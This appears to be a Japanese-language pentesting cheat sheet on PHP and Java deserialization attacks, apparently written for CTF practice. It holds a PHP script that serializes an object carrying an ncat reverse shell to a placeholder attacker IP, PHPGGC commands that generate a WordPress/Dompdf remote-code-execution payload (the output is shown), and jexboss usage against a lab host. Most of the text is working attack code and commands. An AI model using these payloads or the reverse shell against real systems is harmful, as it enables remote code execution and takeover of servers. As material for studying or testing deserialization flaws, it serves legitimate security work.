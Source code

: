 # デシリアライズ

PHP でオブジェクトをシリアライズする例  
php foo.php で実行

```php
<?php
# 仮にMaliciousUserDataクラスがwakeupマジック関数で$commandを実行する実装になっている場合、その動作を制御できる
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```

## 自動化

### PHPGGC

https://github.com/ambionics/phpggc

```shell
# インストール
git clone https://github.com/ambionics/phpggc.git
cd phpggc

# 一覧
./phpggc -l
./phpggc -l WordPress

# 詳細情報
./phpggc -i WordPress/Dompdf/RCE1

# ペイロードを取得
./phpggc WordPress/Dompdf/RCE1 system whoami
O:19:"Dompdf\Adapter\CPDF":1:{s:15:"*_image_cache";O:33:"Requests_Utility_FilteredIterator":4:{i:0;i:0;i:1;a:1:{i:0;s:6:"whoami";}i:2;a:1:{s:11:"*callback";s:6:"system";}i:3;N;}}

# ペイロードを送信する方法はフレームワークによって様々。
# Cookieを変更したり、APIキーと合わせてエンコードしたり。
```

### Ysoserial

Java 用

https://github.com/frohoff/ysoserial


### jexboss

Java（主にJBoss用？）

環境依存がなく、使いやすかった。TonyTheTiger CTF 参照。

https://github.com/joaomatosf/jexboss/blob/master/README.md

```shell
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss 
pip install -r requires.txt

# no-yes-IP-Port
python jexboss.py -host http://10.10.137.88:8080
```
